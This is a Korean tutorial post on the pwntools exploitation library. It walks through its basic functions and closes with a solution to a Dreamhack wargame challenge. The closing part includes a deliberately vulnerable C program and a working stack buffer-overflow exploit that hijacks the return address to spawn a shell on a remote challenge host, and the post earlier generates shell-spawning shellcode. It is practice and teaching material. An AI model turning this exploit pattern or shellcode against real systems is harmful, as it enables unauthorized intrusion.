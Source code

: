 ```yaml
---
title: "System Hacking - pwntools basic"
categories: [Security, SystemHacking]
tags: [pwntools] # TAG names should always be lowercase
---
```


> pwntools 기본 함수들의 용도에 대한 매우 기본적인 내용 정리

필요하다면, docs 원문을 참조하자. [pwntools api docs](https://docs.pwntools.com/en/latest/)

# installation of pwntools
```shell
#Based on Debian 
apt-get update
apt-get install python3 python3-pip python3-dev git libssl-dev libffi-dev build-essential
python3 -m pip install --upgrade pip
python3 -m pip install --upgrade pwntools
```

# pwntools functions

## process & remote

`process`함수는 로컬 바이너리를 대상으로, `remote`는 원격 서버를 대상으로한다.
```python
from pwn import *
p = process('./main')
p = remote('example.com', port) 
```

## send
데이터를 프로세스에 전송하는 함수다.
```python
from pwn import *
p = process('./poc')
p.send(b'A')  # ./poc에 b'A'를 입력
p.sendline(b'A') # ./poc에 b'A' + b'\n'을 입력
p.sendafter(b'output', b'A')  # ./poc가 b'output'을 출력하면, b'A'를 입력
p.sendlineafter(b'output', b'A')  # ./poc가 b'output'을 출력하면, b'A' + b'\n'을 입력
```

## recv
프로세스에서 데이터를 받는 함수. `recv()`, `recvn()`의 차이점을 유의하자. `recvn(n)`은 n바이트를 정확히 받는 반면, `recv(n)`은 __최대__ n바이트 만큼의 데이터를 받는다.

```python
from pwn import *
p = process('./poc')
data = p.recv(1024)  # p가 출력하는 데이터를 최대 1024바이트까지 받아서 data에 저장
data = p.recvline()  # p가 출력하는 데이터를 개행문자를 만날 때까지 받아서 data에 저장
data = p.recvn(8)  # p가 출력하는 데이터를 8바이트만 받아서 data에 저장
data = p.recvuntil(b'hello')  # p가 b'hello'를 출력할 때까지 데이터를 수신하여 data에 저장
data = p.recvall()  # p가 출력하는 데이터를 프로세스가 종료될 때까지 받아서 data에 저장
```

## packing & unpacking
값을 리틀 엔디언 바이트 배열로 변경하거나, 그의 역과정을 수행하는 함수들이 있다. `p32`,`p64`,`u32`,`u64` 함수의 예시만 사용해보자. 함수의 이름처럼 매우 직관적인 기능을 수행한다.

```python
from pwn import *
s32 = 0x41424344
s64 = 0x4142434445464748
print(p32(s32))
print(p64(s64))
s32 = b"ABCD"
s64 = b"ABCDEFGH"
print(hex(u32(s32)))
print(hex(u64(s64)))
```
```shell
# output
b'DCBA'
b'HGFEDCBA'
0x44434241
0x4847464544434241
```

## interactive
입출력을 직접 수행할 수 있게 해준다. shell을 획득했거나 특정 상황에서 직접 입력과 그에 따른 출력을 확인해야 할때 사용하는 함수다.

```python
from pwn import *
p = process('./poc')
p.interactive()
```

## ELF
ELF 헤더의 정보를 확인할수 있게 해주는 함수
```python
from pwn import *
e = ELF('./poc')
puts_plt = e.plt['puts'] # puts()의 PLT주소를 찾아서 puts_plt에 저장
read_got = e.got['read'] # read()의 GOT주소를 찾아서 read_got에 저장
```

## context.log
익스플로잇 로깅. `context.log_level`변수로 로그 레벨을 조절 할 수 있다.

```python
from pwn import *
context.log_level = 'error' # 에러만 출력
context.log_level = 'debug' # 대상 프로세스와 익스플로잇간에 오가는 모든 데이터를 화면에 출력
context.log_level = 'info'  # 중요한 정보들만 출력
```

## context.arch
아키텍처 정보를 지정할 수 있다. 이 값에 따라 몇몇 함수들의 동작이 달라진다.

```python
from pwn import *
context.arch = "amd64" # x86-64 아키텍처
context.arch = "i386"  # x86 아키텍처
context.arch = "arm"   # arm 아키텍처
```

## shellcraft
자주 사용되는 여러 셸 코드들을 제공한다. 그러나 정적으로 생성되는 코드이므로, 제약이 있는 상황에서는 직접 그에 따라 셸코드를 작성하자.

```python
from pwn import *
context.arch = 'amd64' # 대상 아키텍처 x86-64
code = shellcraft.sh() # 셸을 실행하는 셸 코드 
```

## asm
어셈블 기능을 수행한다. 사전에 `context.arch`가 정의되어야한다.
```python
from pwn import *
context.arch = 'amd64' # 익스플로잇 대상 아키텍처 'x86-64'
code = shellcraft.sh() # 셸을 실행하는 셸 코드
code = asm(code)       # 셸 코드를 기계어로 어셈블
```

# pwntools example

[Dreamhack Prob](https://dreamhack.io/wargame/challenges/351/)

취약한 C 코드가 아래와 같이 주어진다.
```c
// Name: rao.c
// Compile: gcc -o rao rao.c -fno-stack-protector -no-pie

#include <stdio.h>
#include <unistd.h>

void init() {
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
}

void get_shell() {
  char *cmd = "/bin/sh";
  char *args[] = {cmd, NULL};

  execve(cmd, args, NULL);
}

int main() {
  char buf[0x28];

  init();

  printf("Input: ");
  scanf("%s", buf);

  return 0;
}
```

pwntools를 이용해서 셸을 획득하고, flag파일을 읽어오자.

```python
#!/usr/bin/python3

from pwn import *

#p = process('./rao')
p = remote("host3.dreamhack.games", 14044)

elf = ELF('./rao')
get_shell = elf.symbols['get_shell']       # The address of get_shell()

payload = b'A'*0x30        #|       buf      |  <= 'A'*0x30
payload += b'B'*0x8        #|       SFP      |  <= 'B'*0x8
payload += p64(get_shell)  #| Return address |  <= '\xaa\x06\x40\x00\x00\x00\x00\x00'

p.sendline(payload)        # Send payload to './rao'

p.interactive()            # Communicate with shell
```